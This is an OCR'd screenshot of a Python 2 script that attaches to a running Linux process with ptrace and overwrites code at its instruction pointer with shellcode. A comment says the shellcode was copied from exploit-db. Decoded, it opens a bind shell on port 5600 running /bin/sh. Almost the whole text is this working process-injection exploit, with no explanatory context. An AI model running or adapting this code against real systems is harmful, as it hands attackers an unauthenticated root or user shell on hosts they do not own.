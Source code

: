 ```
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]

libc = ctypes.CDLL("libc.so.6")

pid=int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0,len(shellcode),4):
 
  # Convert the byte to little endian.
  shellcode_byte_int=int(shellcode[i:4+i].encode('hex'),16)
  shellcode_byte_little_endian=struct.pack("<I", shellcode_byte_int).rstrip('\x00').encode('hex')
  shellcode_byte=int(shellcode_byte_little_endian,16)
 
  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),shellcode_byte)

print("Shellcode Injected!!")

# Modify the instuction pointer
registers.rip=registers.rip+2

# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))

print("Final Instruction Pointer: " + hex(registers.rip))

# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
